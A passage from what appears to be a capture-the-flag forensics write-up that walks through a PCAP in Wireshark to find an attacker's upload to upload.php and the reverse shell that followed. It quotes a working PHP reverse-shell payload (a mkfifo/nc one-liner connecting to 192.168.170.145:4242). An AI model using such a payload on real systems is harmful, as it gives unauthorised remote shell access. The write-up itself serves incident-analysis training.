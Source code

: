 To view the contents of **upload.php**, we can right-click on the packet of interest, click on **Follow** > **HTTP Stream**.

![screenshot2](../assets/images/overpass_2/screenshot2.png)

**Payload:** `\<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

---

### [ What password did the attacker use to privesc? ]

Looking at the payload from earlier, we can see that the attacker is trying to open up a reverse shell into port 4242 on his local machine. Sure enough, scanning through the PCAP file, I noticed several TCP packets being sent from the target machine to port 4242 of another machine (the attacker's). 

We can follow the TCP traffic by right-clicking on any of these packets, then clicking on **Follow** > **TCP Stream**:

